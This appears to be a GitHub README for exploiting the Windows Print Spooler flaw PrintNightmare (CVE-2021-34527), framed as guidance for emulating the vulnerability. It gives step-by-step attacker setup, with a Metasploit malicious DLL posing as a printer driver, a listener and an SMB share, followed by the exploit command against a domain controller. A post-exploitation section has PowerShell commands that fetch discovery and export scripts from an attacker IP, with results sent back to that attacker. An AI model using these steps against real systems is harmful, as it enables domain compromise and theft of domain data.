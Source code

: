 # PrintNightmare
 Windows Print Spooler Vulnerability (CVE2021-34527)

Pre-exploitation
Attacker
1. Install Impacket and python script to exploit the vulnerability
2. Install metasploit (if you aren't using Kali), create a malicious dll as a faked printer driver and set up a listener on port 1443
   https://thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/
3. Run SMB server service and modify the config file
4. Place the faked printer driver to the SMB path
5. Ensure the target is vulnerable to MS-RPRN (Print System Remote Protocol) by running
   rpcdump.py <username>:<password>:@<target IP addr> | grep MS-RPRN
6. Exploit the vulnerability to the target machine
   sudo python3 CVE-2021-34527.py -u <username> -p <password> -d <domain controller IP addr> -dll <path/path/to/maliciousdll> <domain IP addr>

Target machine
1. Ensure the Domain Controller is running the Print Spooler Service and is vulnerable by checking the 
   Powershell
   PS C:\Users\Administrator> get-service spooler
   PS C:\Users\Administrator> start-service spooler

**e.g. replace <username> with a domain user account login credential

# Guides to emulate the vulnerability
Ref: https://github.com/m8sec/CVE-2021-34527?tab=readme-ov-file

Post-exploitation
Download 2 scripts to discovery local machine and domain group info, then send them back to attacker listener. 

'''console
<Invoke-WebRequest -Uri http://192.168.2.85:8000/discovery.bat -o discovery.bat>
<Invoke-WebRequest -Uri http://192.168.2.85:8000/export.bat -o export.bat>
'''

